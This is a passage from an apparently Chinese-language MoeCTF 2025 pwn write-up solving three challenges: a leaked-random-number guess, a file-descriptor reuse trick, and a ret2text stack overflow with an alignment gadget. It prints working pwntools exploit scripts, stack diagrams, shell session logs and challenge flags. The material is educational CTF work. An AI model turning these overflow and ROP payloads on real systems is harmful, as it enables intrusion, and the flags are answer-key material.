若二者均比对成功，则返回 `0`（`LL` 表示 `long long`，这里是为了符合函数要求的返回类型 `__int64`）并进入 `backdoor()` 流程；否则输出 `Something wrong.` 并返回 `1`。

这么说来我们便理解了：倘若我们使用的是 `sendlineafter`，它便会为我们的输入 `shuijiangui` 后附加一个 `0x0a` 换行符，这样的话，`strcmp` 就会认为第 2 个比较不成功了。

#### （四）Pwntools 到底是如何让远程服务器继续下一步操作的？

星澜音更困惑的点便在这里。倘若我们一般使用终端来操作 Linux 程序，我们的常规动作就是，在程序请求用户输入时打一堆文字进去，然后敲下回车键，这样程序就能进行下一步了。但为何这一次，我们使用 `sendafter` 直接发送了数据后，不需要回车键（换行符）就能让程序进行下一步操作？

这里我们需要引入一个概念：**行缓冲（Line Buffering）机制**。我们说缓冲区的类型有三种：全缓冲、行缓冲和无缓冲。

- 全缓冲要求当填满 I/O 缓存后才进行实际 I/O 操作，其代表是对磁盘文件的读写；
- 行缓冲要求在输入和输出中遇到换行符时，才执行真正的 I/O 操作。我们输入的字符会先放在缓冲区，按下回车键后才进行实际的 I/O 操作，其代表是标准输入和标准输出；
- 无缓冲不会进行缓冲，例如标准错误。

一般来讲，我们使用的终端都被配置为了规范模式，也就是运行在行缓冲模式下，这也是为什么我们通常认为，输入完一个东西后，必须要回车才能进行下一步。每当我们敲下回车，终端就会将缓冲区内的数据送到标准输入里；但事实上，程序对于行缓冲是无感的：它不知道你在敲回车键之前是怎么输入的，输入了多少，它只知道标准输入不知为何突然多了一些东西，然后它从标准输入取回这些东西就好了。而标准输入也不总是来自一个配置为行缓冲的交互式终端；它可以来自很多地方，无论是文件重定向、管道、还是像 Pwntools 这样的网络套接字（Socket）。

对于本题的 `pwn` 程序而言，它也感受不到自己正在和网络交互，它只是通过 `read` 函数，从标准输入里读取数据罢了。通过网络套接字传输的数据是没有「行缓冲」这种概念的：你 `send` 了什么，它就 `read` 什么；这就够了。

## 1 ez_u64

> [!NOTE]
> **FLAG:** `moectf{uSEfUl_thlNgs_1n-pwNTO0156775935f}`

继续打开 IDA Pro 逆向。首先定位到 `main` 函数如下：

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    init(argc, argv, envp);
    vuln();
    return 0;
}
```

人畜无害。率先定位到 `init` 函数如下：

```c
int init()
{
    int fd; // [rsp+Ch] [rbp-4h]

    setbuf(stdin, 0LL);
    setbuf(_bss_start, 0LL);
    setbuf(stderr, 0LL);
    fd = open("/dev/urandom", 0, 0LL);
    if ( fd < 0 )
    {
        puts("urandom");
        exit(1);
    }
    read(fd, &num, 8uLL);
    return close(fd);
}
```

程序设置了缓冲区大小为 0，然后设置文件描述符 `fd` 指向 Linux 随机数源设备，读取它的 8 个字节并保存到 `num` 变量中。容易看到这是一个随机数生成器。然后再看 `vuln` 函数：

```c
unsigned __int64 vuln()
{
    __int64 v1; // [rsp+0h] [rbp-10h] BYREF
    unsigned __int64 v2; // [rsp+8h] [rbp-8h]

    v2 = __readfsqword(0x28u);
    puts("Ya hello! Let's play a game.");
    printf("Guess which number I'm thinking of.");
    printf("Here is the hint.");
    write(1, &num, 8uLL);
    printf("\n>");
    __isoc99_scanf("%zu", &v1);
    if ( v1 != num )
    {
        puts("Wrong answer!");
        puts("Try pwntools u64?");
        exit(1);
    }
    puts("Win!");
    system("/bin/sh");
    return v2 - __readfsqword(0x28u);
}
```

在打印完一些文本后，它直接将 `num` 这 8 个字节数据的原始的、二进制的、未经任何处理的值写到了标准输出里！那很简单了：我们只需要截取这 8 个字节，再转成一个整数发送过去，不就行了吗？

构造 Pwntools 脚本：

```python
from pwn import *

context(arch="amd64", os="linux", log_level="debug")

io = connect("127.0.0.1", 13580)

io.recvuntil(b"Here is the hint.")
leaked_bytes = io.read(8)
log.info(f"Leaked raw bytes: {leaked_bytes}")

the_number = u64(leaked_bytes)
log.info(f"Decoded number: {the_number}")

io.sendlineafter(b">", str(the_number))
io.interactive()
```

进入 `interactive` 模式后，只需注意到 `flag` 位于 `./flag` 中。

```plain
cat flag
[DEBUG] Sent 0x1 bytes:
    b'c'
[DEBUG] Sent 0x1 bytes:
    b'a'
[DEBUG] Sent 0x1 bytes:
    b't'
[DEBUG] Sent 0x1 bytes:
    b' '
[DEBUG] Sent 0x1 bytes:
    b'f'
[DEBUG] Sent 0x1 bytes:
    b'l'
[DEBUG] Sent 0x1 bytes:
    b'a'
[DEBUG] Sent 0x1 bytes:
    b'g'
[DEBUG] Sent 0x1 bytes:
    b'\n'
[DEBUG] Received 0x2a bytes:
    b'moectf{uSEfUl_thlNgs_1n-pwNTO0156775935f}\n'
moectf{uSEfUl_thlNgs_1n-pwNTO0156775935f}
[*] Interrupted
[*] Closed connection to 127.0.0.1 port 13580
```

## 1 find it

打开 IDA Pro 分析题目给定的 `pwn` 文件，我们先定位到 `main` 函数：

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    int fd; // eax
    char file[40]; // [rsp+0h] [rbp-30h] BYREF
    unsigned __int64 v6; // [rsp+28h] [rbp-8h]

    v6 = __readfsqword(0x28u);
    init(argc, argv, envp);
    fd = dup(1);
    write(fd, "I've hidden the fd of stdout. Can you find it?\n", 0x2FuLL);
    close(1);
    __isoc99_scanf("%d", &fd1);
    write(fd1, "You are right.What would you like to see?\n", 0x2AuLL);
    __isoc99_scanf("%s%*c", file);
    open(file, 0);
    write(fd1, "What is its fd?\n", 0x10uLL);
    __isoc99_scanf("%d", &fd2);
    read(fd2, &buf, 0x50uLL);
    write(fd1, &buf, 0x50uLL);
    return 0;
}
```

程序起手使用 `fd = dup(1)`，复制了一份标准输出 `stdout` 的文件描述符（File Descriptor）到 `fd`，随后对着 `fd` 输出

> I've hidden the fd of stdout. Can you find it?

紧接着一行 `close(1)` 把标准输出关掉了🤣🤣不过没关系，后面它让我们输出一个值，作为程序 `write` 到的 `fd`，之后它会把接下来程序的输出写入我们指定的 `fd` 中。

不过我们注意到：既然后面是文件操作（使用 `scanf` 获取文件名并使用 `open` 只读地打开文件），那我们只需要让它读取 `flag` 文件就好了。考虑到刚开始程序的文件描述符有 `0`、`1` 和 `2` 三个，`1` 作为原来的 `stdout` 被关掉了，但创建了一个新的 `fd`，它会被分配为 `3`，所以我们只需要在第一个问题处回答 `3` 即可。第二个问题…大胆猜测就位于 `flag` 处。第三个问题，既然程序已经使用 `open` 打开了 `flag` 文件，它就被分配了一个新的文件描述符。至于分配了什么呢🤔我们知道，新文件描述符总是分配最小的可用数值，因此我们的 `1` 被关闭后，这个 `open()` 便重用了这个值，所以现在 `flag` 文件占据文件描述符 `1`！问题解决。

这里几乎用不到 Pwntools，直接 `nc` 裸连手打即可。

```plain
┌──(stellalyrin㉿lyrin-A16)-[/mnt/s/MoeCTF_2025_writeup/writeup/pwn/payloads/1]
└─$ nc 127.0.0.1 14627
I've hidden the fd of stdout. Can you find it?
3
You are right.What would you like to see?
flag
What is its fd?
1
moectf{F1Nd-ThE-HIDDEN-Fd33514761996}
```

不过事实上，对于第一个问题，回答 `0`、`2` 和 `3` 似乎都是可行的😋反正无论如何都得输出，随便输出到哪，我们都能看见。

## 2 EZtext

> [!NOTE]
> 虽说是 `EZtext`，但对于星澜音这种纯粹的新手而言并不 easy……星澜音又花了整整一天时间弄懂这道题背后的全部逻辑……😭😭不过的确还好：星澜音第一次学会诸如堆栈结构、函数调用之类的东西，其实也应当算是收获满满了w——
>
> **FLAG:** `moectf{r3TZtExt_I5-tH3-5tart-0f_RoP7db14b3}`

用 IDA Pro 逆向题目给定的 `pwn` 文件。首先观察一下 `main` 函数：

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    unsigned int v4; // [rsp+Ch] [rbp-4h] BYREF

    init(argc, argv, envp);
    puts("Stack overflow is a powerful art!");
    puts("In this MoeCTF,I will show you the charm of PWN!");
    puts("You need to know the struct of stack first.");
    puts("Then how many bytes do you need to overflow the stack?");
    __isoc99_scanf("%d", &v4);
    overflow(v4);
    return 0;
}
```

`main` 函数调起 `init` 函数，后者设置无缓冲区模式后，前者打印四行文本，并要求用户输入，由 `scanf`（准确来说是 C99 标准下的 `__isoc99_scanf`）从标准输入中读取一个十进制整数，将该整数作为参数传入 `overflow` 函数。下面我们来看 `overflow` 函数：

```c
int __fastcall overflow(int a1)
{
    char buf[8]; // [rsp+18h] [rbp-8h] BYREF

    if ( a1 <= 7 )
        return puts("Come on, you can't even fill this array!");
    read(0, buf, a1);
    return puts("OK,I receive your byte.and then?");
}
```

`overflow` 函数会在栈内申请一个大小为 8 字节的 `buf` 字符数组，随后先判断 `a1` 的值是否大于等于 8，若否，则直接返回；若是，则继续从标准输入读取至多 `a1` 字节大小的数据并填充到 `buf` 中。但…整个程序到这就…结束了？

是的，看起来的确是这样。我们在 IDA Pro 中仔细寻找，终于找出了另一个函数：`treasure`！它长这样：

```c
int treasure()
{
    puts("Congratulations! You got the secret!");
    return system("/bin/sh");
}
```

拿到了 `/bin/sh` 我们就可以为所欲为了！但问题是，整个程序的主逻辑与 `treasure` 八竿子打不着，到底怎么样才能想办法跳到 `treasure` 里呢？我们想到了面向结果编程，也就是大名鼎鼎的——**Return-Oriented Programming (ROP)**。

关于 ROP 的基础知识，星澜音是在 Hello CTF 的 [这篇文章](https://hello-ctf.com/hc-pwn/ROP/) 上了解的。

为了构造 ROP 链，我们首先需要了解清楚栈的结构。不妨从 `overflow` 函数先下手。在 `main` 函数调起 `overflow` 函数前，我们粗略画出栈的结构。若无特别说明，以下结构均为高内存地址在上、低内存地址在下。

```plain
** High Address **

 --------------------  <- rbp
| `main` stack frame |
 --------------------  <- rsp

** Low Address **
```

随后 `main` 进行 `call overflow` 操作。在 IDA Pro 上追踪 `overflow` 的汇编代码，我们有

```asm
; Attributes: bp-based frame

; int __fastcall overflow(int)
public overflow
overflow proc near

var_14= dword ptr -14h     ; 14h = 20 bytes
buf= byte ptr -8           ; 8 bytes

; __unwind {
endbr64
push    rbp                ; Step 1
mov     rbp, rsp           ; Step 2
sub     rsp, 20h           ; Step 3, 20h = 32 bytes
mov     [rbp+var_14], edi  ; Step 4
cmp     [rbp+var_14], 7    ; Step 5
jg      short loc_401205
```

我们对这段代码进行模拟：

执行 `call` 的时候，`rsp` 先向下移动，随后在 `main` 栈帧的下面压入 `main` 的返回地址。

```plain
** High Address **

 -----------------------  <- rbp
|  `main` stack frame   |
 -----------------------
| `main` return address |
 -----------------------  <- rsp

** Low Address **
```

Step 1 时，`rbp`（Base Pointer，栈基底指针）的当前地址被压栈。压栈过程中，通常 `rsp`（Stack Pointer，栈指针）先向低内存地址移动数个单位，随后数据填充到栈内。栈如下所示：

```plain
** High Address **

 -----------------------  <- rbp
|  `main` stack frame   |
 -----------------------
| `main` return address |
 -----------------------
|      saved `rbp`      |
 -----------------------  <- rsp

** Low Address **
```

Step 2 时，将 `rsp` 的值赋给 `rbp`，也就是说，`rbp` 现在移动到了 `rsp` 的位置。

```plain
** High Address **

 -----------------------
|  `main` stack frame   |
 -----------------------
| `main` return address |
 -----------------------
|      saved `rbp`      |
 -----------------------  <- rbp, rsp

** Low Address **
```

Step 3 时，`rsp` 的地址向低内存地址移动了 `20h` 个字节，也就是 32 个字节。

```plain
** High Address **

 -----------------------
|  `main` stack frame   |
 -----------------------
| `main` return address |
 -----------------------
|      saved `rbp`      |
 -----------------------  <- rbp
|                       |          \
|                       |          | --> 32 bytes
|                       |          /
 -----------------------  <- rsp (rbp-32)

** Low Address **
```

Step 4 时，将 `edi` 的值写入 `[rbp-14h]` 的位置，也就是 `rbp` 下方 20 字节处。`edi` 的值来自于我们调用 `overflow` 函数时传入的 `a1`，也就是询问我们的字节数，它本身占用 4 个字节。写入数据时，通常从低内存地址向高内存地址开始写，我们所说的写入的位置，指开始写入时的位置。

```plain
** High Address **

 -----------------------
|  `main` stack frame   |
 -----------------------
| `main` return address |
 -----------------------
|      saved `rbp`      |
 -----------------------  <- rbp
|                       |             \
 -----------------------  <- rbp-16   |
|  /////// a1 ///////   |             | --> 32 bytes
 -----------------------  <- rbp-20   |
|                       |             /
 -----------------------  <- rsp (rbp-32)

** Low Address **
```

Step 5 时，`cmp` 比较器进行一次比较。类 C 语言代码很清晰地看到，我们需要让 `a1` 的值大于等于 8，故我们直接展开追踪 `short loc_401205` 的汇编代码：

```asm
loc_401205:
mov     eax, [rbp+var_14]
movsxd  rdx, eax        ; nbytes
lea     rax, [rbp+buf]        ; Step 6
mov     rsi, rax        ; buf
mov     edi, 0          ; fd
call    _read
lea     rax, aOkIRecvieveYou
mov     rdi, rax        ; s
call    _puts
nop
```

Step 6 用到了 `lea` 指令，表示加载 `[rbp-8]` 的有效地址到 `rax` 寄存器，后续又正式加载到了 `rsi` 寄存器。这没有改变栈结构，直到 `call _read` 出现——`_read` 取 `rsi` 寄存器内的地址并开始向其中填充数据，

```plain
** High Address **

 -----------------------
|  `main` stack frame   |
 -----------------------
| `main` return address |
 -----------------------
|      saved `rbp`      |
 -----------------------  <- rbp
|  \\\\\\ DATA \\\\\\   |             \   ↑  ↑  ↑  ↑  ↑
 -----------------------  <- rbp-8    | - - - `buf` - - -
|                       |             |
 -----------------------  <- rbp-16   | --> 32 bytes
|  /////// a1 ///////   |             |
 -----------------------  <- rbp-20   |
|                       |             /
 -----------------------  <- rsp (rbp-32)

** Low Address **
```

而这，就是问题所在！我们先前讨论过 `read()` 函数的性质，在本例中，它至多向 `buf` 写入 `a1` 个字节的数据，但这个 `a1` 完全没有限定！当我们从 `buf` 的起始地址开始向标准输入写入数据时，数据如果过多，就会冲破 `rbp` 的界限，写到 `saved rbp`、直指 `main return address` 里！

但在这之前，我们不妨先思考一下，函数调用结束，即将返回的时候发生了什么。通常情况下，函数该返回的时候，它们会进行两条指令：

```asm
leave     ; Step 7
retn      ; Step 8, also `ret`
```

这里的 `retn` 是 `return near` 的缩写，属于一个历史遗留问题，在 32 位和 64 位的程序反编译中，我们直接将其理解为 `ret` 就好。

Step 7 中，`leave` 会先进行一步 `mov rsp, rbp`。它将 `rbp` 的值直接赋给 `rsp`，也就是将 `rsp` 直接 TP(?) 到 `rbp` 那里。原先 `rsp` 和 `rbp` 之间的所有栈结构会被直接抛弃。当然，这里的「直接抛弃」并不是给这段栈里全部填充 `0`，而是通过改变 `rsp` 的值，直接忽略掉了这片内存区域。

```plain
** High Address **

 -----------------------
|  `main` stack frame   |
 -----------------------
| `main` return address |
 -----------------------
|      saved `rbp`      |
 -----------------------  <- rbp, rsp
|\\\\\\\\\\\\\\\\\\\\\\\|             \
|\\\\\\\\\\\\\\\\\\\\\\\|             | - - - `buf` - - -
|\\\\\\\\\ NOT \\\\\\\\\|             |
|\\\\\\\\ BEING \\\\\\\\|             | --> 32 bytes
|\\\\\\\\\ USED \\\\\\\\|             |
|\\\\\\\\\\\\\\\\\\\\\\\|             |
|\\\\\\\\\\\\\\\\\\\\\\\|             /
 -----------------------

** Low Address **
```

随后再进行一步 `pop rbp`。这时，CPU 会从 `rsp` 的位置开始向上读取 8 个字节的数据，并将其加载回 `rbp`，也就是将 `rbp` TP(?) 到数据对应的地址那里。紧随其后地，`rsp` 再向上自己走 8 个字节。这样的话，栈结构就被复原到 `call` 之后的样子了。

```plain
** High Address **

 -----------------------  <- rbp
|  `main` stack frame   |
 -----------------------
| `main` return address |
 -----------------------  <- rsp
|\\\\\ saved `rbp` \\\\\|
 -----------------------
|\\\\\\\\\\\\\\\\\\\\\\\|             \
|\\\\\\\\\\\\\\\\\\\\\\\|             |
|\\\\\\\\\ NOT \\\\\\\\\|             |
|\\\\\\\\ BEING \\\\\\\\|             | --> 32 bytes
|\\\\\\\\\ USED \\\\\\\\|             |
|\\\\\\\\\\\\\\\\\\\\\\\|             |
|\\\\\\\\\\\\\\\\\\\\\\\|             /
 -----------------------

** Low Address **
```

事实上，Step 7 可以理解为一个打扫屋子的过程，而 Step 8 就是一个交还钥匙的过程。`retn`，或者我们直接称为 `ret`，执行了一步 `pop rip`。`RIP` 是程序指针，它指示 CPU 应该从哪里继续进行程序。在这一步中，CPU 从 `rsp` 所在的地方向上读取 8 个字节数据，并直接传入 `rip` 中，随后 `rsp` 自身再向上移动 8 个字节。栈结构此时被完全还原；而我们的 CPU 也会在接下来直接按照 `RIP` 的指示去执行指令。就好像，`overflow` 函数从来没有被调用过一样。

```plain
** High Address **

 -----------------------  <- rbp
|  `main` stack frame   |
 -----------------------  <- rsp
|\`main` return address\|      --> to rip
 -----------------------
|\\\\\ saved `rbp` \\\\\|
 -----------------------
|\\\\\\\\\\\\\\\\\\\\\\\|
|\\\\\\\\\\\\\\\\\\\\\\\|
|\\\\\\\\\ NOT \\\\\\\\\|
|\\\\\\\\ BEING \\\\\\\\|
|\\\\\\\\\ USED \\\\\\\\|
|\\\\\\\\\\\\\\\\\\\\\\\|
|\\\\\\\\\\\\\\\\\\\\\\\|
 -----------------------

** Low Address **
```

我们应当能够想到了——回到刚才的话题，我们可以向标准输入中多写一点东西，直接冲到 `main return address` 里！那么我们究竟要写什么呢？既然我们只关心覆盖到 `main return address` 的部分，那其实前面的部分，我们想写什么就写些什么好了，只是前面的部分到底写多少，值得我们好好考量一下。再看看栈结构：

```plain
** High Address **

 -----------------------
|  `main` stack frame   |
 -----------------------  <- rbp+16
| `main` return address |
 -----------------------  <- rbp+8
|      saved `rbp`      |
 -----------------------  <- rbp
|  \\\\\\ DATA \\\\\\   |                ↑  ↑  ↑  ↑  ↑
 -----------------------  <- rbp-8     - - - START - - -
|                       |             
           ...

** Low Address **
```

没错！从 `START` 开始向高内存地址写入，首先随便填充一个 8 字节的数据，其次再随便填充一个 8 字节的数据（覆盖掉 `saved rbp`），最后再填充一个 8 字节的 `treasure` 地址，这样程序返回的时候，就可以直接返回到 `treasure` 了！非常天才的主意！

但多愁善感的人可能会疑惑：这样粗鲁的覆盖，直接干掉了 `saved rbp` 和 `main return address`，那 `main` 怎么办？事实上，从理性的角度来讲，`main` 还真没办法。就好比我们是入室盗窃的小偷（？），从庭院走到门口拿钥匙开锁，那么这中间路上的地毯，是我们必须要踩上去的。况且在调用 `overflow` 的时候，`main` 已经处于了一个类似于休眠的状态——它一直等着 `overflow` 执行完回来叫它，只要没人叫它，它就一直睡着。不过我们现在没必要返回 `main` 了，因为我们要返回的是 `overflow`，所以我们也没必要叫醒 `main`；它的返回地址和预先保留的 `rbp`，该怎么覆盖也不会吵醒它；而至于 `rbp` 究竟要去哪，我们后续自会决定。~~相当于是给 `main` 安乐死了，所以还是比较人道的。~~

构造 Pwntools 脚本如下：

```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')

io = connect('127.0.0.1', 4807)

TREASURE_ADDR = 0x4011b6

payload = b'LYRINLOVESDRYICE' + p64(TREASURE_ADDR)
log.info(f"Payload constructed with length: {len(payload)}")

io.sendlineafter(b'overflow the stack?', str(len(payload)).encode())
io.send(payload)

io.interactive()
```

运行，输出！

```plain
PS S:\MoeCTF\Pwn\2> python .\flag.py
[x] Opening connection to 127.0.0.1 on port 4807
[x] Opening connection to 127.0.0.1 on port 4807: Trying 127.0.0.1
[+] Opening connection to 127.0.0.1 on port 4807: Done
[*] Payload constructed with length: 24
[DEBUG] Received 0xc3 bytes:
    b'Stack overflow is a powerful art!\n'
    b'In this MoeCTF,I will show you the charm of PWN!\n'
    b'You need to understand the structure of the stack first.\n'
    b'Then how many bytes do you need to overflow the stack?\n'
[DEBUG] Sent 0x3 bytes:
    b'24\n'
[DEBUG] Sent 0x18 bytes:
    00000000  4c 59 52 49  4e 4c 4f 56  45 53 44 52  59 49 43 45  │LYRI│NLOV│ESDR│YICE│
    00000010  b6 11 40 00  00 00 00 00                            │··@·│····│
    00000018
[*] Switching to interactive mode

[DEBUG] Received 0x20 bytes:
    b'OK,I receive your byte.and then?'
OK,I receive your byte.and then?[DEBUG] Received 0x26 bytes:
    b'\n'
    b'Congratulations! You got the secret!\n'

Congratulations! You got the secret!
[*] Got EOF while reading in interactive
[*] Interrupted
[*] Closed connection to 127.0.0.1 port 4807
```

嗯\~跳转成功……哎你怎么似了？😰

很遗憾，我们在进入 `interactive` 模式的时候突发 EOF，程序崩了。可能有人认为是网络问题，但是多试了几次之后，发现问题依旧。太诡异了。

我们重新捋一下思路：按道理，既然已经显示出了 `Congratulations! You got the secret!`，证明的确已经进入了 `treasure` 函数的逻辑，也就是说，它没有道理不执行 `return system("/bin/sh");` 这一行命令。事实上我们即使用逻辑也能推断出，程序绝对是走到了这里的，但走到这里之后呢，去了哪里，我们便无从得知了。

> [!TIP]
>
> 在 Linux 系统中，`system` 通常是一个阻塞型命令。它会等待用户执行结束后才会以返回值返回。因此，就算是跳转出 `treasure` 命令的时候程序才崩溃，也应该是我们拿完 `flag` 之后才崩溃。但既然我们现在根本无法进入 `/bin/sh`，那么就说明问题一定是出在 `return system("/bin/sh")` 这一行。

我们在题目 0 中了解过，Pwntools 也可以对本地文件进行调试，只需要将其附加到 `gdb` 上即可。构造如下 Pwntools 脚本：

```python
from pwn import *

context.binary = './pwn'
TREASURE_ADDR = 0x4011b6

payload = b'LYRINLOVESDRYICE' + p64(TREASURE_ADDR)
log.info(f"Payload constructed with length: {len(payload)}")

io = gdb.debug('./pwn', gdbscript=f'''
break *{hex(TREASURE_ADDR)}
continue
''')

io.sendlineafter(b'overflow the stack?', str(len(payload)).encode())
io.send(payload)
io.interactive()
```

运行，输出：

```plain
┌──(stellalyrin㉿lyrin-A16)-[~/MoeCTF/Pwn/2]
└─$ python ./flag.py
[*] '/home/stellalyrin/MoeCTF/Pwn/2/pwn'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[*] Payload constructed with length: 24
[+] Starting local process '/usr/bin/gdbserver': pid 153747
[*] running in new terminal: ['/usr/bin/gdb', '-q', './pwn', '-x', '/tmp/pwnlib-gdbscript-7rdw_qfr.gdb']
[*] Switching to interactive mode

OK,I receive your byte.and then?
Congratulations! You got the secret!

Child terminated with signal = 0xb (SIGSEGV)
[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Process '/usr/bin/gdbserver' stopped with exit code 0 (pid 153750)
```

可以看到，在 `treasure` 运行之前时，程序都还非常正常；但的确，一进入 `system` 指令，程序立刻抛出 `SIGSEGV` 异常（Segmentation Violation，段错误）。何意味？于是只能带着这些错误日志去问 AI 了，结果问出了一个特别致命的东西：**函数调用栈对齐**。

> [!TIP]
>
> 在 Linux（尤其是 x86-64 架构）下，ABI（Application Binary Interface）规范规定函数调用时，栈指针 `RSP` 必须在调用点对齐到 16 字节边界。

具体来说，在 64 位 Linux 常见的 System V ABI 下：我们调用一个函数的时候，调用者必须保证其在执行 `call` 指令时，栈顶 `RSP` 必须是 16 字节对齐的。SSE/AVX 指令集只有这样才能高效读写寄存器，也能避免不必要的性能开销。

一般的 `call` 的调用者一定会保证 `RSP` 在 16 字节对齐，随后 `call` 将返回地址（8 字节）压栈，进入被调函数后，便会 `RSP % 16 = 8`。但问题是，我们引导程序进入 `treasure` 函数时，并没有使用正常的 `call` 指令！

不妨再看一下 `treasure` 函数的汇编代码：

```asm
; Attributes: bp-based frame

; int treasure()
public treasure
treasure proc near
; __unwind {
endbr64
push    rbp
mov     rbp, rsp
lea     rax, s          ; "Congratulations! You got the secret!"
mov     rdi, rax        ; s
call    _puts
lea     rax, command    ; "/bin/sh"
mov     rdi, rax        ; command
call    _system
nop
pop     rbp
retn
; } // starts at 4011B6
treasure endp
```

可以画出进入 `treasure` 时的栈结构：

```plain
** High Address **

 ----------------------
|  `main` stack frame  |
 ----------------------  <- rsp   ; % 16 = 0
|  `treasure` address  |
 ----------------------           ; % 16 = 8
|  \\\\\\ DATA \\\\\\  |
 ----------------------           ; % 16 = 0
|  \\\\\\ DATA \\\\\\  |
 ----------------------
|                      |
           ...

** Low Address **
```

接下来，`rbp` 压栈，但唯独需要注意的是，因为我们之前覆盖 `main return address` 时已经覆盖掉了 `saved RBP`，所以现在这个 `rbp` 在哪我们也不清楚：

```plain
** High Address **

 ----------------------
|  `main` stack frame  |
 ----------------------
|  ??? saved `RBP` ??? |
 ----------------------  <- rsp   ; % 16 = 8
|  \\\\\\ DATA \\\\\\  |
 ----------------------
|  \\\\\\ DATA \\\\\\  |
 ----------------------
|                      |
           ...

** Low Address **
```

不过新的 `rbp` 很快就会移动到 `rsp` 处：

```plain
** High Address **

 ----------------------
|  `main` stack frame  |
 ----------------------
|  ??? saved `RBP` ??? |
 ----------------------  <- rsp,  ; % 16 = 8
|  \\\\\\ DATA \\\\\\  |    rbp
 ----------------------
|  \\\\\\ DATA \\\\\\  |
 ----------------------
|                      |
           ...

** Low Address **
```

问题便显现了：我们在 `call system` 的时候，没有保证 RSP 的 16 字节对齐！但明明调用 `_puts` 的时候，RSP 也没有 16 字节对齐，为何 `_puts` 可以正常运行，但 `system` 不行呢？个人推测，`_puts` 的逻辑比较简单，所以 16 字节未对齐的影响并不是很大；但 `system` 就比较复杂，它要求调用点对齐必须成立，因为 `system` 可能会调用诸如 `movaps` 或 `movdqa` 之类的指令，而这些指令是必须要求对齐的。如果我们不对齐，那就指定 SIGSEGV 了。

那么怎么才能让它在调用前 16 字节对齐呢？我们需要借助一个神秘的东西：**ROP gadget**。

```plain
┌──(stellalyrin㉿lyrin-A16)-[~/MoeCTF/Pwn/2]
└─$ ROPgadget --binary ./pwn --only "ret"
Gadgets information
============================================================
0x000000000040101a : ret

Unique gadgets found: 1
```

这里找到一个仅含 `ret` 的 gadget。我们探讨过 `ret` 的性质。这里，先给出 payload 的构造：它由 16 个字节的任意数据，一个 `ret` gadget 的地址和一个 `treasure` 的地址组成。由于 `ret` 会 `pop` 掉栈内 8 个字节的数据，它便巧妙地将栈 16 字节对齐了！

经过 `ret` 的 `pop` 后，进入 `treasure` 的栈结构如图所示：

```plain
** High Address **

 ----------------------  <- rsp   ; % 16 = 8
|  `treasure` address  |
 ----------------------           ; % 16 = 0
|    `ret` address     |
 ----------------------           ; % 16 = 8
|  \\\\\\ DATA \\\\\\  |
 ----------------------           ; % 16 = 0
|  \\\\\\ DATA \\\\\\  |
 ----------------------
|                      |
           ...

** Low Address **
```

仍然进行一步 `rbp` 压栈：

```plain
** High Address **

 ----------------------           ; % 16 = 8
| ??? saved `rbp` ???? |
 ----------------------  <- rsp   ; % 16 = 0
|    `ret` address     |
 ----------------------           ; % 16 = 8
|  \\\\\\ DATA \\\\\\  |
 ----------------------           ; % 16 = 0
|  \\\\\\ DATA \\\\\\  |
 ----------------------
|                      |
           ...

** Low Address **
```

之后，我们就会发现，此时的 `rsp` 终于 16 字节对齐了！现在，`system` 指令就能完美进行！

构造 Pwntools 脚本如下：

```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')

io = connect('127.0.0.1', 13202)

TREASURE_ADDR = 0x4011b6
GADGET_ADDR = 0x40101a

payload = b'LYRINLOVESDRYICE' + p64(GADGET_ADDR) + p64(TREASURE_ADDR)
log.info(f"Payload constructed with length: {len(payload)}")

io.sendlineafter(b'overflow the stack?', str(len(payload)).encode())
io.send(payload)
io.interactive()
```

运行：

```plain
PS S:\MoeCTF\Pwn\2> python .\flag.py
[x] Opening connection to 127.0.0.1 on port 13202
[x] Opening connection to 127.0.0.1 on port 13202: Trying 127.0.0.1
[+] Opening connection to 127.0.0.1 on port 13202: Done
[*] Payload constructed with length: 32
[DEBUG] Received 0xc3 bytes:
    b'Stack overflow is a powerful art!\n'
    b'In this MoeCTF,I will show you the charm of PWN!\n'
    b'You need to understand the structure of the stack first.\n'
    b'Then how many bytes do you need to overflow the stack?\n'
[DEBUG] Sent 0x3 bytes:
    b'32\n'
[DEBUG] Sent 0x20 bytes:
    00000000  4c 59 52 49  4e 4c 4f 56  45 53 44 52  59 49 43 45  │LYRI│NLOV│ESDR│YICE│
    00000010  1a 10 40 00  00 00 00 00  b6 11 40 00  00 00 00 00  │··@·│····│··@·│····│
    00000020
[*] Switching to interactive mode

[DEBUG] Received 0x20 bytes:
    b'OK,I receive your byte.and then?'
OK,I receive your byte.and then?[DEBUG] Received 0x26 bytes:
    b'\n'
    b'Congratulations! You got the secret!\n'

Congratulations! You got the secret!
ls
[DEBUG] Sent 0x1 bytes:
    b'l'
[DEBUG] Sent 0x1 bytes:
    b's'
[DEBUG] Sent 0x1 bytes:
    b'\n'
[DEBUG] Received 0x2c bytes:
    b'bin\n'
    b'flag\n'
    b'lib\n'
    b'lib32\n'
    b'lib64\n'
    b'libexec\n'
    b'libx32\n'
    b'pwn\n'
bin
flag
lib
lib32
lib64
libexec
libx32
pwn
cat flag
[DEBUG] Sent 0x1 bytes:
    b'c'
[DEBUG] Sent 0x1 bytes:
    b'a'
[DEBUG] Sent 0x1 bytes:
    b't'
[DEBUG] Sent 0x1 bytes:
    b' '
[DEBUG] Sent 0x1 bytes:
    b'f'
[DEBUG] Sent 0x1 bytes:
    b'l'
[DEBUG] Sent 0x1 bytes:
    b'a'
[DEBUG] Sent 0x1 bytes:
    b'g'
[DEBUG] Sent 0x1 bytes:
    b'\n'
[DEBUG] Received 0x2c bytes:
    b'moectf{r3TZtExt_I5-tH3-5tart-0f_RoP7db14b3}\n'
moectf{r3TZtExt_I5-tH3-5tart-0f_RoP7db14b3}
exit
[DEBUG] Sent 0x1 bytes:
    b'e'
[DEBUG] Sent 0x1 bytes:
    b'x'
[DEBUG] Sent 0x1 bytes:
    b'i'
[DEBUG] Sent 0x1 bytes:
    b't'
[DEBUG] Sent 0x1 bytes:
    b'\n'
[*] Got EOF while reading in interactive
[*] Interrupted
[*] Closed connection to 127.0.0.1 port 13202
```

结束。

